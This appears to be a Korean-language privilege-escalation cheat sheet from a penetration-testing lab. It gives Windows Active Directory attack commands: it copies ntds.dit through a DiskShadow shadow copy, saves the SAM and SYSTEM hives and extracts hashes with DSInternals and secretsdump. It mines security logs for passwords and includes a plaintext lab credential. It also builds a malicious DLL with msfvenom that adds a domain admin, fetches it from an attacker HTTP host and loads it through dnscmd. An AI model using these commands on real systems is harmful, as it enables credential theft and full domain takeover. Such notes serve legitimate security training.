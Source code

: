 DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit
```
```dir E:```

### NTDS.dit 로컬 복사
```Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit```

### SAM 및 SYSTEM 레지스트리 하이브 백업
```
reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SAM SAM.SAV
```

### NTDS.dit에서 자격 증명 추출
```
Import-Module .\DSInternals.psd1
$key = Get-BootKey -SystemHivePath .\SYSTEM
Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key
```

### SecretsDump를 사용하여 해시 추출
```secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL```

<br/><br/>
## Robocopy

### Robocopy로 파일 복사하기
```robocopy /B E:\Windows\NTDS .\ntds ntds.dit```

<br/><br/>
# 이벤트 로그 리더

### 그룹 멤버십 확인
```net localgroup "Event Log Readers"```

### wevtutil을 사용하여 보안 로그 검색
```wevtutil qe Security /rd:true /f:text | Select-String "/user"```

### wevtutil에 자격 증명 전달
```wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"```

### Get-WinEvent를 사용하여 보안 로그 검색
```Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}```

<br/><br/>
# DNS 관리자

## DnsAdmins 액세스 활용

### 악성 DLL 생성
```msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll```

### 로컬 HTTP 서버 시작
```python3 -m http.server 7777```

### 대상에 파일 다운로드
```wget "http://10.10.14.3:7777/adduser.dll" -outfile "adduser.dll"```

### 권한이 없는 사용자로 DLL 로드 (실패)
```dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll```

```